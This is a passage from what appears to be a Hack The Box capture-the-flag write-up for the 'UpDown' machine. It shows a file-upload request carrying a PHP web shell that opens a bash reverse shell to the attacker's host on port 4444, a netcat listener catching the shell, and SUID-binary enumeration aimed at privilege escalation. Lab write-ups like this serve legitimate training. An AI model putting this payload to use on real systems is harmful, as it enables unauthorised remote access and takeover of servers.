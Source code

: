```http
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], "bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'");
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);

     echo "command returned $return_value\n";
}
?>

https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```

I was finally in.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.177] 49620
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ 

www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ 
```

## Getting User

Once I got in the machine, I looked for files with the `suid` bit set.

```bash
www-data@updown:/var/www/dev/uploads/3b8f7dcbcb24fc8e95da41b7b3fc5d0c$ find / -perm /u=s 2>/dev/null
<fc8e95da41b7b3fc5d0c$ find / -perm /u=s 2>/dev/null                   
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
```